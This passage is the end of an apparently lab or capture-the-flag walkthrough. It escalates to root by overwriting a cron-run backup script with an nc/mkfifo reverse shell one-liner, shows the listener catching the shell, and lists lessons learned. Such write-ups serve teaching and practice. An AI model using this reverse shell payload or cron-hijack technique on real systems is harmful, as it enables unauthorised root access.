

I use the `nc mkfifo` reverse shell payload on port 9999.

Overwrite `/opt/backup.sh` with the payload.

```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.106.128 9999 >/tmp/f' > /opt/backup.sh
```

Set up the listener.

```bash
nc -lvnp 9999               
listening on [any] 9999 ...

```

Wait for the backup script to execute.

```bash
nc -lvnp 9999               
listening on [any] 9999 ...
connect to [192.168.106.128] from (UNKNOWN) [192.168.106.129] 49754
bash: cannot set terminal process group (5447): Inappropriate ioctl for device
bash: no job control in this shell
root@monster:~# 
```

We now have a root shell.

## Lessons learned

- Always check anonymous or guest-accessible SMB shares early.
- Web credentials are worth testing against the obvious login paths before spending time on deeper fuzzing.
- Administrator access to WordPress can become system access when plugin editing is available.
- SUID binaries are useful even when they do not directly spawn a shell; read/write primitives can still enable lateral movement.
- Writable scripts executed by root-owned cron jobs are high-impact privilege escalation targets.

Thank you for reading.
